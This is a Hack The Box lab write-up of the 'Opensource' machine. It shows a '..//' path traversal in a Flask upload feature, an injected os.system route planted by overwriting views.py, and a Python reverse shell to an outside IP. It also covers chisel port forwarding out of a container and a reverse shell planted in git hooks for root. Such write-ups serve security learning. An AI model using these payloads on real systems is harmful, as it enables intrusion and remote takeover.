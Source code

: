 ```yaml
---
layout: single
title: Opensource HTB writeup
excerpt: "Easy linux machine in which we overwrite the app code with a malicious file name and changed a .githooks file"
date: 2022-06-26
classes: wide
header:
  teaser: /assets/images/opensource/icon-opensource.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - flask
  - port forwarding
  - code revision
  - gitea
  - git
---
```


![](/assets/images/opensource/opensource.png)

# OPENSOURCE
### User flag

As always nmap tcp port scan

```shell
$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.164 -oN allports
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 62
3000/tcp filtered ppp     no-response
```

Then I visited the website played with the upload files subdomain and found some errors that indicated that the flask application was in debug mode, so to make sure I fuzzed the website and found what I expected.

```shell
$ ffuf -w ~/wordlist/directory-list-2.3-big.txt:FUZZ -u http://10.10.11.164/FUZZ -v -o fuzzdir

[Status: 200, Size: 2489147, Words: 9473, Lines: 9803, Duration: 124ms]
| URL | http://10.10.11.164/download
    * FUZZ: download

[Status: 200, Size: 1563, Words: 330, Lines: 46, Duration: 48ms]
| URL | http://10.10.11.164/console
    * FUZZ: console

```

The console was protected by a pin so I did some research to see if there was anyway to crack it and found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug). I needed someway to get a LFI to hack the console.
Eventually by reading the source code I found some protection against *../* but not against *..//* in utils.py

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
So via BurpSuite I changed the name of the file to ..//..//..//..//etc/passwd and I was able to download the file

```
GET /uploads/..//..//..//..//etc/passwd HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
```

 Next I tried cracking into the console but I came to the conclusion it was a rabbit hole since it was impossible for me to crack the PIN. However I thought that if I could manipulate the GET request I could also do it with the POST request and change the python code. So I added a bit of code to views.py

```python
@app.route('/dasor')
def rce():
    return os.system(request.args.get('cmd'))
```

And uploaded it with a POST requests

```
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12202201532330092291110617912
Content-Length: 1008
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1

-----------------------------12202201532330092291110617912
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python
...
```

Then I went to the domain I had just created and started a reverse shell

```
http://10.10.11.164/dasor?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.0.1%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

But I was not a user on the system I was root but ... in a container. At that point I remembered that port number 3000 so I tried to use chisel for port forwarding. Also I had to compile it statically to use it in the container. I uploaded the binary through the page and forwarded the port

```shell
#on kali
$ chisel server -p 7777 --reverse
#on victim
$ ./chisel client 10.10.14.74:7777 R:3000:172.17.0.1:3000
```

The port contained gitea with a user called dev01 I found his credentials on the .git folder that comes with the source code on the brach dev. Once we login we find his ssh key so I copied it to my machine and logged via ssh.

### Root flag

As always I used linpeas but this time it did not found anything critical. I realized that the user had a git directory in his home but I did not found any clue until I typed git log once again and saw another new commit. Was someone else on the machine or was it automatic?. To clear that doubt I uploaded and used pspy64 and found out every minute a commit was made.

Firstly I checked on crontab but it was empty so I did some research and found you can schedule git commands inside the .git/hooks so I looked inside and found a lot of files and added a reverse shell to one of them, one minute later I was root.

I later found out that you were supposed to go into the folder by yourself and delete the .sample that the files had since with the .sample they do not get executed. However in my instance someone already did it.
